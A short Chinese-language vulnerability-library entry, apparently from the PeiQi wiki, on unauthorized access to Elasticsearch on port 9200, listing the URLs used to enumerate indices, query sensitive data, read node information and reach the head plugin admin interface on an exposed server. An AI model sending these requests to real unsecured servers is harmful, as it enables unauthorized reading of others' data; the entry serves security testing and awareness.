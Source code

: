 ```yaml
---
title: Elasticsearch 未授权访问
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 服务器应用漏洞
 - Elasticsearch
---
```


# Elasticsearch 未授权访问

## 漏洞描述

Elasticsearch是用Java开发的企业级搜索引擎，默认端口9200，存在未授权访问漏洞时，可被非法操作数据

## 漏洞影响

> [!NOTE]
>
> Elasticsearch

## 漏洞复现

访问目标URL : http://xxx.xxx.xxx.xxx:9200/_node



```
http://localhost:9200/_cat/indices
http://localhost:9200/_river/_search //查看数据库敏感信息
http://localhost:9200/_nodes         //查看节点数据
http://localhost:9200/_plugin/head/  //web管理界面(head插件)
```

